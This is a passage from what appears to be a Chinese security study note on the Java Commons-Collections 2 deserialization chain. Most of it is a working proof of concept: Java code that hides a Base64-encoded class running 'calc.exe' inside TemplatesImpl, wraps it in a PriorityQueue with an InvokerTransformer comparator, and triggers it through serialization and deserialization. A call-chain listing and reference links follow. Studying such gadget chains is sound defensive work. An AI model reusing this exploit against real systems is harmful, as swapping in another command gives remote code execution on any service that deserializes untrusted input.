        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        InvokerTransformer newtransformer=new InvokerTransformer("toString",new Class[0],new Object[0]);

        TransformingComparator comparator=new TransformingComparator(newtransformer);
        PriorityQueue queue=new PriorityQueue(2, comparator);

        queue.add(1);
        queue.add(1);

        setValue(newtransformer,"iMethodName","newTransformer");

        Object[] queueArray=(Object[]) getValue(queue,"queue");
        queueArray[0]=Impl;
        queueArray[1]=1;

        serialize(queue);
        unserialize();
    }
    public static void serialize(Object obj) throws Exception{
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(obj);
    }
    public static Object unserialize() throws Exception{
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        Object o=ois.readObject();
        return o;
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
        Field field=obj.getClass().getDeclaredField(filedname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static Object getValue(Object obj, String filedname) throws Exception {
        Field field=obj.getClass().getDeclaredField(filedname);
        field.setAccessible(true);
        return field.get(obj);
    }
}
```



完整利用链：

```
ObjectInputStream -> readObject()
PriorityQueue -> readObject()
PriorityQueue -> heapify()
PriorityQueue -> siftDown()
PriorityQueue -> siftDownUsingComparator()
TransformingComparator -> compare()
InvokerTransformer -> transform()
TemplatesImpl -> newTransformer()
TemplatesImpl -> getTransletInstance()
TemplatesImpl -> defineTransletClasses()
TemplatesImpl -> defineClass()
```

## 参考

<https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java>

<https://nivi4.notion.site/Java-CommonCollections2-bffcf256243d414192c43fdefc916df9>

<https://xz.aliyun.com/news/9835>

<https://www.anquanke.com/post/id/232592#h3-7>

<https://drun1baby.top/2022/06/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8705-CC2%E9%93%BE/>

<https://www.cnblogs.com/byErichas/p/15749668.html>
